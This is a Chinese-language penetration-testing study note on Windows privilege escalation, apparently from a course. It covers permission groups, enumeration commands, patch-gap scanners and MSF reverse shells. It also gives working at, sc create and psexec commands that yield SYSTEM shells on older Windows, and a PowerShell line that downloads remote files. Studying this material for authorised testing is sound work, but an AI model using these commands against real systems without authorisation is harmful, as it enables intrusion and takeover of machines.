

# 思维导图



## 知识点

#明确权限提升基础知识:权限划分
#明确权限提升环境问题: WEB 及本地
#明确权限提升方法针对:针对方法适应问题
#明确权限提升针对版本:个人及服务器版本;针对方法;
知识点必备:

- 用户及用户组权限划分

- Windows提权命令

#### **用户及用户组权限划分**

Windows系统内置了许多本地用户组，这些用户组本身都已经被赋予一 些权限(permissions),它们具有管理本地计算机或访问本地资源的权限。只要用户账户加入到这些本地组内，这个用户账户也将具备该组所拥有的权限。

#### 普通权限

默认情况下，系统为用户分了7个组，并给每个组赋予不同的操作权限，**管理员组(Administrators)、高权限用户组(Power Users)、普通用户组(Users)、备份操作组(Backup Operators)、文件复制组(Replicator)、来宾用户组(Guests)，身份验证用户组(Ahthenticated users)**其中备份操作组和文件复制组为维护系统而设置，平时不会被使用。

 

管理员组拥有大部分的计算机操作权限(并不是全部)，能够随意修改删除所有文件和修改系统设置只有程序信任组（特殊权限）。再往下就是高权限用户组，这一部分用户也能做大部分事情，但是不能修改系统设置，不能运行一些涉及系统管理的程序。普通用户组则被系统拴在了自己的地盘里，不能处理其他用户的文件和运行涉及管理的程序等。来宾用户组的文件操作权限和普通用户组一样，但是无法执行更多的程序。身份验证用户组(Ahthenticated users) 经过ms验证程序登录的用户均属于此组。　　

 

#### 特殊权限

　　除了上面提到的7个默认权限分组，系统还存在一些特殊权限成员，这些成员是为了特殊用途而设置，分别是:**SYSTEM(系统)、Trustedinstaller（信任程序模块）、Everyone(所有人)、CREATOR OWNER(创建者)** 等，这些特殊成员不被任何内置用户组吸纳，属于完全独立出来的账户。
　　真正拥有“完全访问权”的只有一个成员:SYSTEM。这个成员是系统产生的，真正拥有整台计算机管理权限的账户，一般的操作是无法获取与它等价的权限的。
　　“所有人”权限与普通用户组权限差不多，它的存在是为了让用户能访问被标记为“公有”的文件，这也是一些程序正常运行需要的访问权限——任何人都能正常访问被赋予“Everyone”权限的文件，包括来宾组成员。
　　被标记为“创建者”权限的文件只有建立文件的那个用户才能访问，做到了一定程度的隐私保护。
　　但是，所有的文件访问权限均可以被管理员组用户和SYSTEM成员忽略，除非用户使用了NTFS加密。
　　无论是普通权限还是特殊权限，它们都可以“叠加”使用，“叠加”就是指多个权限共同使用，例如一个账户原本属于Users组，而后我们把他加入Administrators组在加入Trustedinstaller等权限提升，那么现在这个账户便同时拥有两个或多个权限身份，而不是用管理员权限去覆盖原来身份。权限叠加并不是没有意义的，在一些需要特定身份访问的场合，用户只有为自己设置了指定的身份才能访问，这个时候“叠加”的使用就能减轻一部分劳动量了。

## Windows命令

| 命令                                                         | 描述                                                  |
| ------------------------------------------------------------ | ----------------------------------------------------- |
| systeminfo                                                   | 打印系统信息                                          |
| whoami                                                       | 获得当前用户名                                        |
| whoami /priv                                                 | 当前账户权限                                          |
| ipconfig                                                     | 网络配置信息                                          |
| ipconfig /displaydns                                         | 显示DNS缓存                                           |
| route print                                                  | 打印出路由表                                          |
| arp-a                                                        | 打印arp表                                             |
| hostname                                                     | 主机名                                                |
| net user                                                     | 列出用户                                              |
| net user UserName                                            | 关于用户的信息                                        |
| net use\SMBPATHPa$$w0rd/u:UserName                           | 连接SMB                                               |
| net localgroup                                               | 列出所有组                                            |
| net localgroup GROUP                                         | 关于指定组的信息                                      |
| net view\127.0.0.1                                           | 会话打开到当前计算机                                  |
| net session                                                  | 开放给其他机器                                        |
| netsh firewall show config                                   | 显示防火墙配置                                        |
| DRIVERQUERY                                                  | 列出安装的驱动                                        |
| Tasklist /svc                                                | 列出服务任务                                          |
| net start                                                    | 列出启动的服务                                        |
| dir/s foo                                                    | 在目录中搜索指定字符的项                              |
| dir/s too==bar                                               | 同上                                                  |
| sc query                                                     | 列出所有服务                                          |
| sc qc ServiceName                                            | 找到指定服务的路径                                    |
| shutdown/r/t 0                                               | 立即重启                                              |
| type file.txt                                                | 打印出内容                                            |
| Icacls “C\Example”                                           | 列出权限                                              |
| wmic qfe getCaption, Description,HotFixID,InstalledOn        | 列出已安装的补丁                                      |
| (NewObject System.Net.WebClient).DownloadFile(“https://host/file"/"C:\LocalPath") | 利用ps远程下载文件到本地                              |
| accesschk. exe-qwsu"Group"                                   | 修改对象(尝试Everyone，Authenticated Users和/或users) |

# 演示案例：

## 基于 WEB 环境下的权限提升-阿里云靶机

#### 前提

- Windows2012、已获得web权限 

#### 信息收集

运行cmd，可以收集系统的基础信息，但权限不够不能做添加修改

使用“whoami”获得当前用户名，使用“whoami /priv”了解当前账户权限，通过“systeminfo”可以知道系统打过多少补丁，还有“ipconfig”等，可以在命令后加“> x.txt”输出命令

#### 补丁筛选

使用“Vulmap”进行补丁筛选：下载，直接运行其中“.ps1”后缀的PowerShell脚本（打开PowerShell将脚本拖进去）

使用“Wes”进行补丁筛选：下载，在cmd执行命令“python.exe wes.py systeminfo.txt -o vuln.csv”，即对比“systeminfo”文件并将结果输出，其中“-o”是输出，可以将结果输出为“csv”“txt”等格式，输出的结果是可能存在的漏洞等，第一次使用会要求下载两个文件（漏洞数据库）

使用“WindowsVulnScan”进行补丁筛选：

下载，在cmd执行命令“python.exe WindowsVulnScan-master/cve-check.py”可以看到程序说明，使用“-u”“-U”分别更新CVE和EXP信息

将“KBCollect.ps1”放到放到对方的服务器上运行，获得“KB.json”，也可以自行复制“systeminfo”的信息并修改成其需要的格式

cmd执行“python.exe WindowsVulnScan-master/cve-check.py -C -f KB.json”，如果出现错误提示将KB.json的编码格式转换为UTF-8编码即可

#### 利用MSF或特定EXP

EXP的使用不再赘述，这里讲MSF的使用

在实战中利用MSF，建议购买服务器，2核4G或2核2G，安装Ubuntu系统，只安装MSF；非实战kali或忍者系统就可以用Xshell远程连接MSF服务器，输入“msfconsole”启动msf，借助msf利用漏洞，反弹shell，提升权限 

## 基于本地环境下的权限提升-系统溢出漏洞

**前提**

- 已经获得计算机的普通用户权限

运行漏洞EXP将当前的用户权限提升为system

提权原因：有些工具需要足够的权限才能运行，高权限可以获得更多信息，有利于内网渗透

CVE-2020-0787 BitsArbitraryFileMoveExploit 

## 基于本地环境下的权限提升-AT&SC&PS 命令

前提已经获得计算机的普通用户权限，较老的计算机系统，视频以Win2003为例

参考：[windows权限提升——AT、SC、PS命令提权](https://blog.csdn.net/weixin_40412037/article/details/121535553)

#### AT

**适用范围：只针对Win7及之前的系统，从Win8开始不再支持at命令。**

打开cmd添加一项计划任务，在15:13打开一个cmd窗口，发现打开的窗口是system权限

```shell
at 15:13 /interactive cmd.exe	
```

这是一个设计上的逻辑错误。

[Windows中使用命令创建计划任务（at、schtasks）](https://blog.csdn.net/weixin_45677145/article/details/122061271?spm=1001.2101.3001.6650.1&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-1.pc_relevant_default&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7Edefault-1.pc_relevant_default&utm_relevant_index=2)

#### SC

**适用范围：03/08、12/16**


创建一个名叫“syscmd”的服务，运行它，发现得到的cmd窗口是system权限

```shell
sc Create syscmd binPath= "cmd /K start" type= own type= interact

sc start syscmd
```

#### PS

**适用范围：适用于Win2003 & Win2008**


下载微软官方的[PsTools](https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools)工具包，在下载的文件夹下执行下面的命令，发现得到的cmd窗口是system权限

```shell
psexec.exe -accepteula -s -i -d cmd.exe
```

 

## 演示案例知识点总结：

#### 案例 1：如何判断使用哪种溢出漏洞？漏洞那里找？

权限提升流程：信息收集-补丁筛选-利用MSF或特定EXP-执行-西瓜到手

漏洞库推荐：Vulmap、Wes、WindowsVulnScan

windows-exp-suggester在17年后未更新，不再推荐

Vulmap是PowerShell脚本，使用最简单，但web提权往往只能有cmd窗口，不一定有PowerShell环境，导致该项目对Windows系统不友好。（推荐：wes  windowsVulnScan）

Wes和WindowsVulnScan是python脚本（自己的环境有就行），可以不借助PowerShell操作，更适用于web提权


#### 案例 2：如何判断使用哪种数据库提权？数据库提权利用条件？

MSF 结合云服务器搭建组合组合拳？模拟上述操作实战演练？
搭建：https://www.cnblogs.com/M0rta1s/p/11920903.html

#### 案例 3：如何判断本地环境可利用漏洞情况？AT&SC&PS 命令适用环境？

有些漏洞可能只适应于本地环境提权，不适用于web环境提权

有些提权方法借助系统上的设计，逻辑上的问题来实现，并不总是依靠漏洞 

## 案例给到的思路点总结如下：

1.提权方法有部分适用在不同环境，当然也有通用方法
2.提权方法也有操作系统版本区分，特性决定方法利用面
3.提权方法有部分需要特定环境，如数据库,第三方提权等

# 涉及资源：

[https://github.com/vulmon/Vulmap](https://github.com/vulmon/Vulmap)
[https://github.com/bitsadmin/wesng](https://github.com/bitsadmin/wesng)
[https://github.com/unamer/CVE-2018-8120](https://github.com/unamer/CVE-2018-8120)
[https://github.com/chroblert/WindowsVulnScan](https://github.com/chroblert/WindowsVulnScan)

[Windows提权辅助工具](https://i.hacking8.com/tiquan/)

